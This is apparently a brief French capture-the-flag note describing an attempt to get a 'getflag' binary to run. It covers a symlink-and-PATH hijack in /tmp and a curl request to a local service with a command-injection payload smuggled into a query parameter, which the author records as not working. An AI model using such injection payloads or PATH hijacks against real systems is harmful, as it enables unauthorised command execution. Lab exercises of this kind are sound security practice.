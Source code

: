 do /tmp/GETFLAG et faire un lien symbolique de /bin/getflag a /tmp/GETFLAG
changer le path

quand on va call GETFLAG on va aller vers /tmp/GETFLAG qui va renvoyer le vrai getflag


```
echo "getflag" > /tmp/GETFLAG
touch /tmp/CC
```
```
curl localhost:4646/?x=`/*/GETFLAG>/*/CC` 
```

Ne marche pas
